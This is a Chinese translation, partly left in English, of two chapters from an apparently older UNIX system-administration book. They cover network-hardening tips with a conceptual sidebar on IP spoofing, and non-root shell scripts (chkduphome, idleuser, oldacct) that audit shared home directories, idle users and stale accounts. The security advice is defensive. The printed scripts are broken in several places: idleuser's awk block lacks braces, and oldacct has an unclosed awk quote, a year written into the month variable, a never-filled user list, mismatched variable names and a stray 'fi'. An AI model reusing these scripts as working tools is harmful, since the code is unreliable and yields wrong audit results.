# UNIX 安全 (系统管理员必备参考系列) (系统管理员必备参考系列)


## UNIX 各种安全提示

Arthur Donkers

本章收集了一些保护内部网络的技巧和窍门。通过使用标准提供的工具并以一点常识配置系统，你应该能够预防约 80% 的安全相关问题。

为什么要保护内部网络？仅仅因为大多数入侵都是来自本地网络上的另一台机器。这些入侵可能是偶然的，也可能是恶意的，但这并不重要。它们可能是由你自己的员工或为项目雇佣的人完成的，但这也无关紧要。这些入侵会发生，你必须加以防范。由于内部网络的类型如此之多，我无法在本章中全部涵盖。我将集中讨论通过 LAN 直接连接或通过路由器和 WAN 连接而构建的基于 TCP/IP 的 UNIX 计算机网络。

### 提示 1：了解你的网络

这可能看起来很明显，但要使网络安全，你必须知道它是如何工作的，什么连接了什么，以及用户是谁。

通常，你会将连接到网络的机器分为两组，服务器和客户端。这种划分是有意义的；然而，它并不总是反映实际情况。客户端机器可能兼作某种服务器机器，因为它对一个或多个服务器具有额外权限。利用这些权限，它可以挂载一个包含敏感数据的特殊 NFS 卷。

大多数现代网络今天不仅包含 UNIX 机器，还包含 PC。人们可以将 freely-available UNIX 实现，如 Linux 和 FreeBSD，安装到他们的本地 PC 上。他们随后将拥有完整的 UNIX 机器访问权限，包括 root 访问权限。Root 访问权限允许他们使用互联网上各种工具在网络上漫游以寻找信息。例如，他们可能会使用像 tcpdump 这样的程序来监控线路上传输的所有数据包。或者他们可能会使用多种 NIS（以前称为 Yellow Pages）嗅探器，可以从服务器复制你的公司密码文件。一旦他们获得了对该密码文件的访问权限，他们就可以使用像 crack 这样的程序来“猜测”你的密码。你可能会惊讶于在合理的时间内能找到多少密码（大约 30%）。

最好的策略是尝试保护自己免受这种攻击，而不是禁止它。保护自己的方法之一是跟上网络的动态变化。特别是大型网络有倾向于增长、缩小并不断变化。一旦你建立了安全的环境，保持其安全就很重要。

### 提示 2：密切监视你的网络

一旦你掌握了网络，你应该开始对网络上“正常”的一天会是什么样子有一个概念。这意味着你需要网络的一种流量概况。一些机器会产生比其他机器更多的流量，随着时间的推移，你可以为每个系统建立这种类型的概况。

你可以使用数据包嗅探器或像 tcpdump 这样的程序来构建这些概况，该程序监控你的网络流量。较大的网络应永久运行网络监控，因为某些类型的攻击和入侵会产生不符合正常概况的流量。例如，IP 欺骗攻击会在网络上产生大量 SYN 数据包来淹没一台机器（所谓的 SYN flood）。如果你能在它实际发生时检测到它，你可能会阻止入侵成功。

构建流量概况也可能有助于你在网络上排查问题。更容易看出哪些主机在操作参数范围内工作，哪些表现出不合理的行为。这些概况的另一个好处是你能更好地处理增长。你可以更轻松地估计何时所有可用带宽将被用完，从而可以采取适当的措施防止网络堵塞。

### 提示 3：决定你想要保护什么

在提示 1 和 2 的基本结构和监控到位后，出现第一个问题是风险评估。你保护什么以及你想多强地保护它？你可以使用为提示 1 收集的信息来帮助做出此决定。这些信息将向你展示哪些机器包含敏感数据以及哪些系统可以访问这些数据。如果你想保护数据，你需要保护这些系统。

保护网络上的所有机器似乎是个好主意，但在大型网络（或至少连接机器超过 100 台的网络）上，这可能会变成一个真正的管理挑战。因此，你必须在这两种策略之间找到一个可行的平衡。

### 提示 4：建立可行的安全策略

实施可行的安全策略可能是最大的挑战之一。它不仅仅是通过应用技术小工具和部件来完成的。完整的安全解决方案涉及你的网络拓扑、你的网络管理，最重要的是，你的用户。

在开始应用技术解决方案之前，你必须决定要采用何种安全策略。基本上，有两种类型，每种采用不同的方法。

第一种基于以下陈述：“凡是未明确禁止的都是允许的。”这意味着所有用户都被允许做他们想做的任何事情，除非某个服务、系统或用户被明确禁止。你第一反应可能是将此策略视为不安全。这对于某些服务来说是正确的，但对于所有服务则不然。一个例子是 SMTP 服务，用于电子邮件。每个人都被允许发送电子邮件（即连接到邮件服务器上的 SMTP 服务）；只有那些倾向于发送邮件炸弹的人才被禁止。为了节省不必要的工作，你默认允许每个人发送电子邮件。


第二种策略（你可能已经猜到）基于这样的原则：“凡未明确允许的，即被禁止。”除非用户达到某种特殊权限级别并被明确允许，否则任何人都不能使用该服务。一个例子可能是财务部门服务器上的 telnet 服务。所有人都被拒绝访问该机器的 telnet 端口，除非他或她拥有特殊许可并且从可信系统上工作。要实施这一策略，系统必须提供合适的工具，允许你选择“默认拒绝”策略。这能将管理工作量降到最低，并带来更加安全的环境。UNIX 系统自带的大多数标准工具并不支持这样的策略。它们要么允许所有人访问（服务启用），要么拒绝所有人访问（服务禁用）。

请注意，我这里指的是 UNIX 基础安装所附带的工具和服务。这条规则也有很好的例外，在其他情况下，你可以用从互联网上找到的更精细的版本来替代它们。

你可以在本地网络中混合使用这两种策略。如前面的例子所示，某些服务更适合采用“默认允许”策略，而另一些则更适合“默认禁止”策略。最重要的是三思而后行，并使用清单来实施变更。

无论采用哪种策略，你必须知道哪些主机是可信的，哪些是不可信的。可信主机拥有特殊地位，比不可信主机享有更多权限。此外，在大多数情况下，主机地址是你能应用的最细粒度的区分层级。为了在安全与管理成本之间取得平衡，在地址层面进行区分也许是你力所能及的最佳做法。但有时这还不够。可信主机上的某些用户可能需要比其他用户更多的权限。最好将这些用户迁移到新机器上（或将低权限用户迁移到另一台机器上）。要在网络层面为同一台机器上的不同用户强制实施不同的安全级别，是非常困难的。此外，也没有一种可靠的方法能够确凿无疑地验证用户身份。冒充其他用户相当容易，因此基于用户的安全措施效果不佳。

### 技巧 5：了解你的 TCP/IP

要想实施（或至少理解）一个安全解决方案，你必须了解一些关于 TCP/IP 协议的知识。TCP/IP 协议栈包含许多层（协议）。图 1.1 展示了 TCP/IP 协议栈的结构。最基础的层称为 IP。它负责将数据包从一处传送到另一处。也正是这一层使用 IP 地址来寻找目的地。很少有应用直接与 IP 层通信。

在 IP 层之上有多个不同的协议。每个协议都为想要使用它的应用提供编程接口。在图 1.1 中，协议条的高度表示提供给应用的功能级别。

这些协议中的第一个是 ICMP 协议。它主要用于管理和控制 IP 层。借助它，你可以强制路由选项、声明目的地不可达等。不过，最广泛使用的功能是回显请求和回显应答。这两个功能被 ping 程序用来检查你是否能到达你（或其他人）网络上的某个主机。

总的来说，这是一个有点危险的协议，因为它直接与机器的 IP 层交互。如果可能，你只应启用回显请求和回显应答功能，并禁用其他功能。如果做不到这一点，你应当启用该协议，以便使用 ping 命令来验证主机是否可达。

第二个协议是 UDP。这是一种数据报协议，意味着它在发送数据之前不必与另一台机器建立连接。UDP 协议获取应用提供的数据，将其打包成 UDP 数据包，并将其交给

图 1.1 TCP/IP 协议栈的结构：基础层 IP 支持多种不同的协议，其中，协议条的高度表示所提供的功能级别。




to the IP layer. The packet is then put on the wire, and that is where it ends. There is no way to guarantee that the packet will reach its destination. The UDP protocol is mostly used by (old implementations of) NFS and by the Name Service.

The last, and probably most widely used, protocol is TCP. This offers the application (client) a virtual circuit to a program (server) on another machine. This virtual circuit needs to be established, which means that the client has to open a connection to the server. Once this connection is established, the TCP protocol guarantees the correct (both in content and in order) delivery of the data transmitted through this circuit. While establishing the connection, both the client and the server exchange a sequence number that they will use as a ruler for their sliding window protocol. These sequence numbers should be generated at random, so they are impossible to guess. However, a large number of TCP/IP implementations use an algorithm to generate these numbers. Once a hacker knows that algorithm, he or she can predict a sequence number and use it in a spoofing attack. (See the sidebar “IP spoofing.”)

### IP Spoofing

A frequently exploited trick for breaking into a system is called IP spoofing, which is based on the strategy that a system with an address of an untrusted host pretends to be a system with an address of a trusted host (very often the local host 127.0.0.1). For example, a system with the address 1.x.y.z pretends to be a system with the address 2.a.b.c. Because the IP layer normally adds these IP addresses to a data packet, a spoofer has to circumvent the IP layer and talk directly to the raw network device. The spoofer builds an IP packet by hand and puts it on the wire. This may sound more complicated than it really is.

Faking a UDP packet is relatively simple. The header of a UDP packet is very simple due to its connectionless nature. You can fill in any IP address you like and pretend to be somebody else. There is one problem, however. If a server needs to send a reply, it will send it to the “real” 2.a.b.c instead of to the “fake” 1.x.y.z. IP spoofing is normally used to deposit another exploit on the target machine.

Faking a TCP connection is much harder, but not impossible. The difficulty lies in the fact that when a TCP connection is established, both the server and the client generate a sequence number from which they will start counting the packets transmitted. This sequence number is generated at random (or at least it should be), and should be hard to predict. However, some implementations of the TCP/IP protocol make it rather easy to predict this sequence number. Once the spoofer has managed to predict the sequence number, he or she can send packets to the target machine, just as if the connection were established. This is also often used to deposit another exploit on the target machine.

Figure 1.2 shows what happens when a client and a server make a TCP connection. You can see the sequence numbers that are exchanged between server and client. Each time one of the parties acknowledges a message, it increments the sequence number by 1.

#### Figure 1.2 An illustration of a client-server TCP connection shows how the sequence numbers are incremented.


#### IP Spoofing — continued

The TCP protocol uses a handshake between the two parties. Thus, whenever the spoofer sends a packet to the server, the server will send an acknowledgement back to the "real" client. This real client does not know what to do with this ACK, and sends a message back to the server. The spoofer may try to flood the real client with dummy packets at such a rate that its buffers will overflow; thus, the ACK from the server will be lost.

Under some circumstances, a spoofing attack can be detected. If the machine has two network interfaces, one for a trusted network and one for an untrusted network, a spoofing attack can be detected as follows. For each connection request arriving on the machine, the receiving application must check the sender address. If this address does not match with the interface on which it was received (e.g., a message from a trusted host on the untrusted interface), the connection request should be refused, and the event should be logged. If needed, the administrator can be warned that such an event has occurred.


## Tip 6: 仅启用所需的功能

在大多数情况下，预装的 UNIX 机器都带有启用了所有花哨功能的配置。你应该做的第一件事之一就是在内核中禁用 IP FORWARDING 选项。（如果你将机器用作网关，则不要禁用此选项！）大多数机器可能都启用了此选项，这意味着它可以将网络数据包从一个接口发送到另一个接口。如果你将此机器同时连接到受信任网络和不受信任网络，你可能会允许不受信任网络上的机器连接到或探测受信任网络上的机器。禁用此选项的方法因系统而异，通常可以在系统手册中找到。

你还应禁用所有不必要机器正常工作服务的服务。在大多数情况下，这意味着只有 telnet 和 ftp 服务会被启用。其他所有服务都将被禁用，包括 finger、systat 和 rservices。这一组服务可以为窃听者提供有关系统上活跃用户、系统上运行的程序等信息。

在禁用这些服务之前，你必须首先了解它们是如何使用的。当客户端系统想要连接到你的服务器时，它会以两种方式之一联系在你的服务器机器上运行的程序。

第一种方式涉及守护进程——独立运行的程序。每个守护进程为网络提供一个或多个服务。这些守护进程通常在系统启动期间启动，在 rc 文件或 inittab 文件中的一个。并非所有这些守护进程都是必要的。（例如，所有机器都需要运行 sendmail 吗？）你应该更改系统启动文件，以便仅启动必要的守护进程。这里的一个提示是不要从启动文件中删除不必要的程序，而是简单地将其注释掉。你以后可能需要它们，而且删除注释比再次向启动文件添加程序要容易得多。

启动服务器程序的第二种方式是通过超级守护进程 inetd。inetd 监听其配置的所有端口。一旦其中一个端口进来连接，inetd 将完成它。一旦此连接完成，inetd 将启动与该端口关联的程序，并将连接交给 stdin 和 stdout。此机制用于 telnet 连接、ftp 连接等。

inetd 的配置存储在一个名为 /etc/inetd.conf 的特殊文件中。此文件告诉 inetd 它应该监听哪些服务，以及在收到连接请求时应做什么。Listing 1.1 中显示了此文件的一个简短片段。（Listings 1.1–1.3 可从 Sys Admin ftp 站点获取：ftp.nis.com 在 /pub/sysadmin/。）

此文件中所有未使用的服务的第一行都应有一个 #。请注意，最后八行上的服务是 inetd 的内部服务，这意味着它们由 inetd 本身提供服务。由于 inetd 以 root 账户运行，这些服务的任何错误或漏洞都可能使黑客获得对你机器的 root 访问权限。我建议你通常禁用这些服务。不要忘记在更改 inetd.conf 文件中的内容后向 inetd 程序发送 HUP 信号。只有这样它才会读取其新配置。

## Tip 7: 仅接受来自受信任接口的受信任主机

系统应仅接受其信任的机器的连接。这无法使用正常的 UNIX 配置进行配置。你必须求助于额外的工具，例如 tcpwrapper，或像我一样自己编写一个。这些工具的共同点是它们仅适用于由 inetd 启动的服务。原因很简单。一旦 inetd 完成连接，它将启动与该服务关联的程序。因此，很容易在 inetd 和真正的程序之间插入一个包装程序。然后此包装程序将检查客户端的地址。如果地址属于受信任组，它将把连接交给服务器程序。如果主机不受信任，包装程序将关闭连接，并且服务器程序不会启动。你可以在 ftp 站点 ftp://ftp.win.tue.nl/pub/security 上找到 tcpwrapper 的源代码。

Listing 1.2 包含我编写的包装程序，它更简单并且有一些优点。首先，它使用客户端的 IP 地址而不是主机名。因此，它不依赖于名称服务器来验证客户端。这在本地网络情况下尤其是一个优势，因为名称服务器通常是首先被入侵的机器。此外，Listings 1.2 和 1.3 中的程序会检查数据包接收到的接口。为了客户端能够连接到服务器程序，以下三项必须与配置文件中的一条规则匹配。

```
interface address client address/mask service
```

为了能够处理主机组，客户端地址后面可以跟一个掩码，该掩码表示用于匹配的 IP 地址中的位。Listing 1.2 包含该程序的主模块。Listing 1.3 包含检查客户端和接口地址的例程。如果你需要此程序的完整源代码，你可以在 ftp 站点 ftp://ftp.reeseau.nl/pub/divert 上找到它。

将此类包装程序添加到 inetd 很简单，但对于独立守护进程该如何操作呢？答案是不能。这些守护进程打开并完成自己的连接，因此没有办法在中间放置包装程序。

然而，还有其他方法可以使守护进程更安全。一个臭名昭著的独立守护进程（就安全漏洞而言）是 sendmail。它用于发送和接收邮件并且通常以 root 账户运行。此外，sendmail 可以为系统上的用户启动程序，因此它具有良好的攻击目标的所有要素。然而，Firewall Toolkit (FWTK) 包含一个名为 smap 的安慰剂 sendmail 守护进程，可用于代替独立的 sendmail 守护进程。smap 所做的一切就是遵守 SMTP 协议并将接收到的数据存储在文件中。一旦消息完成并存储，smap 将把数据交给


the real sendmail。 这可以防止任何直接通过 telnet 连接到 SMTP 端口（端口 25）的人与真正的 sendmail 建立交互式连接来尝试几个漏洞。 你可以在 ftp 站点 ftp://ftp.tis.com/pub/firewalls/toolkit 找到这个防火墙工具包。

另一种保护你的独立守护进程的方法是让它们在文件系统的独立部分中运行。 这意味着守护进程是通过另一个程序启动的，该程序首先执行 chroot 系统调用。 因此，该程序的根目录位于文件系统中的安全目录上，并且无法访问此目录之上的任何文件。 如果守护进程被攻破，黑客将无法访问文件系统中的真实文件，只能访问受保护的副本。 然而，这些文件的副本不应包含任何敏感信息，例如真实用户的真实密码。 你可以在 ftp 站点 ftp://ftp.win.tue.nl/pub/security 找到这个 chroot 实用程序。

## Tip 8: Log and Scan as Much as You Can

防止入侵很重要，然而，你也应该为有时有人成功获得非授权访问的情况做好准备。 因此，你需要有一种可靠的检测入侵的方法。 最好的做法是启用各种工具的日志记录。 如果可能的话，这些日志信息应写入安全磁盘或通过串行端口发送到另一台机器。 然后你可以使用 Perl 或 awk 之类的程序来持续分析日志信息流，查找奇怪的消息（即来自同一主机的重复连接失败或非办公时间内的连接）。 当出现这种情况时，你应提醒管理员采取行动。

你也可以使用 SATAN 或 Internet Scanner 之类的网络扫描程序扫描你的本地网络。 这些程序会测试网络上的所有主机是否存在大量已知的漏洞。 如果程序检测到漏洞，它会通知你，以便你采取适当的措施。 除了扫描网络之外，你还可以使用 COPS 之类的程序扫描机器本身。 COPS 会检查你的系统是否存在奇怪的情况，例如系统文件上的危险权限（组可写和世界可写）、未知的 setuid 脚本等等。 你应定期执行这些扫描，以便密切关注（而不是闭眼）你的安全。 SATAN 和 COPS 都可以通过 ftp.win.tue.nl 免费获得。 Internet Scanner 是 Internet Security Systems 提供的一款商业产品。

## Tip 9: Watch the Security Mailing Lists on the Internet

互联网上有许多与安全相关的邮件列表。 你最好订阅其中几个，以了解最新的漏洞和问题。 无论如何，订阅 CERT 邮件列表都是一个好主意。 这是发布安全警报和修复程序的官方机构之一。 访问他们的网站 http://www.cert.org 了解有关订阅的更多信息。

## Tip 10: Always Test a Password Scheme before Implementing It

在网络安全的这幅图景中，仍有一个很大的未知因素：人为因素。 你可以建立一个非常安全的网络环境，但如果用户为了记住密码而把密码贴在显示器上，你仍然存在一个大问题。 这听起来可能很疯狂，但当一项安全策略强制用户使用系统生成的密码时，这确实发生了。 这些密码太难记了，用户会把它们写在黄色便条上贴在显示器上，或（如果更注重安全）贴在键盘底部。

你需要让用户参与进来并提高他们的安全意识，使他们愿意配合。 你还需要为用户制定一些指导方针，以便他们能够继续以安全的方式工作。

就人为因素而言，一些公司强制执行密码策略，以防止用户使用可猜测的密码。 这是明智的，但这种密码方案应谨慎选择。 在某些情况下，该方案会导致密码自动生成，这通常会产生像 Grb16x 或 Pfq#12 这样的密码。 承认这些密码很难猜测，但可能更难记住。 你可以让用户遵循类似这样的规则：编造一个你容易记住的单词和数字句子。 从每个单词中挑选所有首字母和数字，并将它们用作你的密码。 例如，“I live in Holland and my zipcode is 9991 AM” 将被翻译为密码 I1iHamy9A。 这也很难猜测，但至少更容易记住。 （顺便说一下，这不是我的真实密码。）

你也可以编写一个密码程序，在接受新密码之前，将其与（最好是大型）词典进行检查。 每当程序在词典中找到匹配的单词时，密码就会被拒绝，用户必须选择一个新的密码。


## 结论

几个简单的提示可以提高本地网络的安全性。这些简单的事情不需要花钱；通常只需正确配置系统即可实现。此外，互联网上还有许多免费的工具可以使用。

然而，这些措施仅涵盖了 80% 的情况。如果你对安全环境的需求高于平均水平，你可能需要自己建立专业知识或聘请专业人员。但在实施解决方案之前，你应始终权衡风险与所需付出的努力。所涉及的成本不应超过入侵可能造成的损失。

## 检查用户安全

Larry Reznick

最近在为一次 UNIX 安全审计做准备时，我检查了几个我们许多人可能忽视的用户账户问题。这些问题包括重复的主目录、空闲时间超过数天的用户、很长时间未使用的旧账户，以及非活跃或不频繁的密码老化。放任不管，这些问题中的一些可能会随着时间的推移变成重大的安全问题。防止 minor 安全漏洞演变成大问题的关键是，在它们发生后不久就能了解到它们。

每天、每周或每月运行一次的简单 shell 脚本可以捕捉到这些问题，我编写了一套脚本来满足这一目的。我编写这些脚本的目标之一是，在无需 root 权限的情况下提供信息。仅 root 才能运行的全面检查脚本对部门经理没有用处，因为他们本可以留意系统问题，但却无法获知所需信息，因为他们无法运行 root 任务。这些 shell 脚本中使用的系统查询不需要 root 权限，因此系统管理员可以将这些管理职责下放给组经理或部门经理。此外，由于 root 无需运行这些脚本，它们可以在 root 的 crontab 不那么拥挤的其他 cron 作业下运行。

## 重复的主目录

通用登录账户是个坏主意。从管理员的角度来看，它们似乎很方便：当许多人需要使用一个程序，而他们唯一要做的就是运行该程序时，为什么要创建数十个单独的账户？相反，为什么不创建一个每个人都可以登录的通用账户呢？这种方法的问题在于缺乏问责制。如果用户的登录名是你了解谁在做什么的唯一方式，当每个人都使用相同的登录名时，你将一无所知。tty 和 pty 标识符无法告诉你谁真正在使用终端。通常使用该工作站的人可能在其他工作站上。

如果软件要求用户提供身份识别，你可能会认为通用登录账户就足够了，因为程序会跟踪谁在做什么。该程序会将此用户特定信息通知给 UNIX 吗？如果没有此类通知，UNIX 管理员如何知道发生了什么？该程序允许用户 shell 访问吗？如果是这样，该用户仍然无法被识别，却可以无问责地执行系统操作。

通过单独的账户解决这些问题。为每个用户提供单独的登录名和密码。为每个登录提供单独的主目录。一些系统管理员会想创建一个通用主目录，让使用该应用程序的每个用户都登录到那里。然而，通用主目录会使文件隔离变得棘手。如果应用程序创建用户特定的文件，这些文件是否能为每个用户唯一标识？如果不是，但它们被放在当前目录或中央目录中，你如何知道哪个文件属于哪个用户？当用户拥有 shell 访问权限或应用程序内的配置功能时，一个用户可以干扰另一个用户的文件或操作。

使主目录对每个用户私有。在安全环境中，主目录不应被除所有者之外的任何用户写入。严格的安全环境不应允许主目录被除所有者之外的任何用户读取。当多人拥有对同一个主目录的所有权访问权限时，这些安全预防措施就毫无用处了。

一个简单的 shell 脚本 chkduphome（清单 2.1）检查 /etc/passwd(4) 文件并报告任何共享相同主目录的账户名称。冒号分隔的 /etc/passwd 文件的第六个字段保存登录账户的主目录。cut(1) 提取目录，sort 将它们排序，以便重复项变得可见。sort(1) 有一个 -u 选项来执行 uniq(1) 的工作。uniq 的 -c 选项做了 sort 的 -u 选项不做的事情：它显示重复计数。经过 uniq -c 的每个条目都会有一个计数——即使是单个条目。egrep(1) 剔除所有计数为 1 的条目。| 前后留有空格可确保只消除 1，而不是 10 或 21。仅重复条目保留下来，无论找到多少个重复项。生成的条目被传递给 sed(1)。


脚本随后对表示重复项的条目应用两个 sed 表达式。第一个表达式删除记录中的计数部分，只保留主目录名。第二个表达式将冒号放回目录名中。这些操作为再次通过密码文件进行 egrep 搜索做好了准备。egrep 将收集与这些重复主目录关联的账户名。如果账户名在初始 cut 中被收集，sort 本可以严格按主目录键排序，但 uniq 就无法如此轻松地计数重复项。

记录只有在整个记录匹配时才会被 uniq 视为重复。某些版本的 uniq 允许字段指定——我使用的版本不允许。sort 不会只输出重复的行。uniq 会只输出重复的行，但那样我就无法为每个使用重复目录的登录账户得到一行。

## Listing 2.1 shell 脚本 chkduphome 检查 /etc/passwd(4) 文件并报告任何共享相同主目录的账户名称。

```sh
#!/bin/sh
#
# chkduphome
#
# Report account entries in the /etc/passwd file
# using the same home directories.
#
# Copyright 1994, Lawrence S Reznick

PW_FILE=/etc/passwd        # Point to passwd file
DUP_FILE=tempdup.$$        # egrep search set

echo The following login accounts use the same home dirs as other accounts:

cut -d : -f6 $PW_FILE |
sort |
uniq -c |
egrep -v '^ *1 ' |
sed -e 's/^ *[0-9]*//' -e 's/^ \(.*\)/:\1:/' > $DUP_FILE

egrep -f $DUP_FILE $PW_FILE |
cut -d : -f1,6 |
sort -t : -k 1 |
tr ':' '	'                # 2nd arg has only 1 tab

rm $DUP_FILE
```

为了获取与目录关联的名称，脚本输出到一个文件中，该文件保存所有重复的目录名。确定这些重复项后，让 egrep 在 passwd 文件中搜索包含有问题目录路径的任何行就变得很简单。重复文件中命名的每个目录都有前导和尾随的冒号分隔符，如 /etc/passwd 所用。这些分隔符创建了 whole-field 匹配。它们防止在树中的上层是主目录时发生匹配，并防止匹配同一树中的子目录。例如，如果某个重复账户条目在 /usr 中，程序就不应输出其主目录路径包含 /usr 的每个账户。只有主目录为 /usr 的条目才会匹配。egrep -f 标识重复条目文件，以便 egrep 将为每个 /etc/passwd 行匹配任何重复条目。

表示来自 passwd 文件的重复条目的匹配行被传递给 cut，后者提取用户的账户名和主目录。sort 接收此信息并按主目录对记录进行排序。sort 将所有名称放在单个主目录内，然后在该单个主目录内按名称对行进行排序。最后，为了使输出更易于阅读，tr 将冒号更改为制表符。

chkduphome 的输出保持未装饰，以便可以将其通过管道传输到另一个程序。另一个程序可以根据字段之间的制表符解析输出。当然，如果不需要进一步处理，cron 作业可以简单地将输出通过邮件发送给管理员或组管理员。

## Catching Idle Users

用户工作站空闲时间过长可能代表安全问题。这样的用户可能已让登录保持活动状态但并未在工作站前。如果屏幕保护程序处于活动状态并带有密码保护锁，可能就无需担心。然而，当用户空闲超过一两周时，我开始怀疑用户是否休假时未注销。

idleuser 脚本（Listing 2.2）列出过度空闲的用户。对于此程序，空闲时间的小时或分钟并不重要，只有天数。finger(1) 命令以表格格式提供足够的信息。不幸的是，finger 不会在其表格字段之间输出方便的制表符分隔符。幸运的是，finger 的字段似乎使用统一的字符长度。因此我让 cut 使用那些字符位置范围来提取用户名及其空闲时间，只需确保在数据的字符范围内包含一些分隔空格即可。

当 finger 看到一天或多天的空闲时间时，它会在数字后显示 d。如果我告诉 egrep 查找一个或多个数字后跟该 d，它将把 finger 列表精简为仅过度空闲的记录。


awk 对整理后的列表完成剩余工作。awk 从空闲时间字段解析登录名字段。记住 awk 将所有内容视为字符串，除非你在数值表达式中显式使用某个值。当某个值包含除数字以外的任何内容时，你必须告诉 awk 将其转换为数字。每个空闲天数末尾的 d 阻止 awk 将该值视为数值。用字符串比较来比较天数与 idleuser 命令行提供的空闲天数阈值是不合适的。作为字符串，1d 会排在 2d 之前，但 9d 会排在 10d 之后，因为数字 9 排在数字 1 之后。对该值加上 0 会导致 awk 取出字符串的数值，丢弃最后一个数字之后的所有非数字字符，并将结果用作数字。awk 将正确比较这些数字。

该程序仅显示空闲时间超过命令行阈值数目的用户姓名和空闲天数。如果你认为 7 天、14 天，甚至 30 天的空闲时间是合理的，你可以在命令行或 cron 作业中使用 idleuser 30。idleuser 假定你对空闲时间少于这些天数的任何用户都不感兴趣。脚本会报告空闲天数达到或超过该数目的任何人，以便你判断这是否是个问题。

## Listing 2.2 The idleuser script reports overly idle users.

```
#!/bin/sh
#
# idleuser
#
# Show users idle longer than specified days.
#
# Copyright 1994, Lawrence S Reznick

if [ $# -ne 1 ]
then
echo "Usage: $0 days\n"
echo "Show users logged in & idle for longer than the specified days."
exit 1
fi

finger |
cut -c9,35-40 |
egrep "[0-9]d" |
awk '
if ( $2 + 0 >= days ) {
print $1, "(" $2 ")";
}
' days=$1
```

## In Search of Ancient Accounts

使用 finger 来查找空闲账户立刻让人想到使用 finger 来识别古老账户。有时账户只是被遗弃了，在一个繁忙的作业站且拥有大量特殊访问和顾问账户的环境中，很容易在系统上留下旧的、未使用的账户。这样的账户代表着安全问题，因为任何曾经拥有该账户访问权限的人仍可能进入。idleuser 使用了 finger 的摘要输出来查找以天为单位的空闲时间信息。oldacct 脚本（Listing 2.3）也使用 finger，但请求了关于每个用户的更详细的信息。

当你给 finger 提供一个用户名，甚至几个用户名时，它会为每个用户输出行，标识有关该用户的各种事实。finger 从 /etc/passwd 文件以及 /etc/utmp(4) 和 /etc/wtmp 文件中获取大部分这些事实，who(1) 和 login(1) 将其最新数据保存在这些文件中。

由于 finger 只有在单独给出每个用户名时才会提供详细的信息，oldacct 必须查看 passwd 文件以了解用户名称。passwd 文件中包含所有可能的账户名称，包括可能很长时间都不会使用的管理员用户账户和伪用户账户。

## Listing 2.3 The oldacct script reports users idle for over 90 days.

```
#!/bin/sh
#
# oldacct
#
# Identify accounts not used for over 90 days.
#
# Copyright 1994, Lawrence S Reznick
#
# 94Apr19 LSR
# Finger doesn't always show "On since" when the user is still logged in.
# If the user has been idle, finger shows the minutes & seconds idle.
# Added a test for "Idle" to catch that. Also found one acct that had a
# home phone field. Finger outputs that on a separate line, pushing the
# "Last logged in" line to the 5th line. The word "Directory:" appears on
# the 4th line when that happens. Added a test to handle that. Finally,
# changed the "Never logged in" code to collect the names. After the loop
# finishes, the names are output in a columnar list. Looks cleaner that way.
PW_FILE=/etc/passwd        # Point to passwd file
LOWUID=200                 # Lowest non-admin UID
```

```
monthnum ()
{
    Jan=1 Feb=2 Mar=3 Apr=4 May=5 Jun=6
    Jul=7 Aug=8 Sep=9 Oct=10 Nov=11 Dec=12
    echo `eval echo \$"$1"`             # Show month's number
}

EXPMONTH=`date "+%m"`                    # Get current date
EXPDAY=`date "+%d"`
EXPYEAR=`date "+%Y"`

CURMONTH=$EXPMONTH
CURYEAR=$EXPYEAR

if [ $EXPMONTH -le 3 ]
then
    EXPMONTH=`expr $EXPMONTH + 9`          # Wrap around year
    EXPMONTH=`expr $EXPYEAR - 1`
else
    EXPMONTH=`expr $EXPMONTH - 3`
fi

if [ $EXPMONTH -eq 2 -a $EXPDAY > 28 ]
then
    EXPDAY=28                              # Force Feb 28
fi

#
# Turn month number into that month's name
#

#Months="Jan Feb Mar Apr May Jun Jul Aug Sep Oct Nov Dec"

#set $MONTHS                              # Create associative array
#EXPMONTH=`eval echo $"$EXPMONTH"`        # Select month's name

#
# Collect all non-administrative users' names
#

USERS=""
awk
    BEGIN { FS = ":" }
    $3 >= LOWUID { print $1 }
' LOWUID=$LOWUID $PW_FILE |
sort
```


# 上例 2.3（续）

```sh
#
# Find last login time for each user
#

for u in $USERS
do
#    echo "$u\t\c"

    LAST=`finger -m $u 2>/dev/null | sed -n '4p'`
    set $LAST                                      # Parse last login line

    while [ $# -lt 5 ]                             # Handle special message
    do
        if [ "$LAST" = "Never logged in." ]
        then
            echo $u\t"$LAST"
            NOLOGIN="$NOLOGIN $u"
            break
        fi

        # Special case when home phone is in GECOS field

        if [ "$1" = "Directory:" ]                     # Phone pushed all 1 line down
        then
            LAST=`finger -m $u 2>/dev/null | sed -n '5p'`
            set $LAST
            continue
        fi

        # Special case when phone number isn't in GECOS field

        LAST=`finger -m $u 2>/dev/null | sed -n '3p'`
        set $LAST
    done

    if [ $# -lt 4 ]                                 # Never logged in
    then
        continue
    fi

    if [ "$1" = "On" -a "$2" = "since" ]          # Still logged in
    then
        continue                                    # Don't tell anyone
    fi
fi
```

此类账户不应计入 oldacct 的检查中。通常，管理员账户具有较低的 UID 号码。这些号码位于 /etc/passwd 文件的第三个字段中。在我最初编写 oldacct 脚本的系统上，阈值 UID 为 200。管理员账户的 UID 小于 200；普通用户账户使用 200 或更大。你需要根据系统使用的最低普通 UID 调整 oldacct 脚本。

# 上例 2.3（续）

```
if [ "$5" = "Idle" ]      # Still logged in
then
    continue                 # Keep going
fi

OLDMONTH=$4
OLDDay=$5
OLDYEAR=$6

# If last login was within 6 months, year will be an hh:mm time
if [ $OLDYEAR -gt 999 ]      # It must be >= 6 months old
then
    echo "$u\t$OLDMONTH $OLDDay $OLDYEAR"
    continue
fi

if [ `monthnum $OLDMONTH` -lt $EXPMONTH -o \
`monthnum $OLDMONTH` -gt $CURRMONTH ]
then
    echo "$u\t$OLDMONTH $OLDDay $OLDYEAR"
    continue
fi

if [ `monthnum $OLDMONTH` -eq $EXPMONTH -a $OLDDay -lt $EXPDAY ]
then
    echo "$u\t$OLDMONTH $OLDDay $OLDYEAR"
    continue
fi

done

if [ -n "$NOLOGIN" ]
then
    echo "Never logged in:"
    echo $NOLOGIN | tr ' ' '\012' | pr -t -6
```

